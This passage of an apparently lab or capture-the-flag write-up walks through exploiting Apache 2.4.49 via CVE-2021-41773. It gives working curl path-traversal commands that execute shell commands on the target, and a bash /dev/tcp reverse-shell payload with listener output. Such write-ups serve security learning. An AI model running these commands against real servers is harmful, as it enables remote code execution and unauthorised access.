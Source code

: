 Looking through those directories didn't yield anything interesting but the **DS_Store** file kept popping up in them. I download the file and take a look at what it is:

`file DS_Store`

```
DS_Store: Apple Desktop Services Store
```

I research this a bit and it too doesn't yield anything useful.

<br>

## CVE-2021-41773

The website is running **Apache 2.4.49** and searching for exploits on that leads to **CVE-2021-41773** which is a path traversal and RCE exploit. I visit [**this GitHub repository**](https://github.com/mr-exo/CVE-2021-41773) which explains how to use this exploit. Running the command listed on the page:

`curl 'http://10.10.26.161/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' --data 'echo Content-Type: text/plain; echo; id'`

```
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

`curl 'http://10.10.26.161/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' --data 'echo Content-Type: text/plain; echo; hostname'`

```
4a70924bafa0
```

So we have RCE, let's work on getting a shell.

<br>

## System Access

I first start a listener up on my system and then run the curl command with **which nc** and it comes up blank so we can't use netcat for the reverse shell. Same goes with php. I try for a standard bash shell and it works.

`curl -v 'http://10.10.26.161/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' --data 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/<MY IP>/4444 0>&1'`

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.26.161] 55610
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
daemon@4a70924bafa0:/bin$
```

<br>

## Docker Container

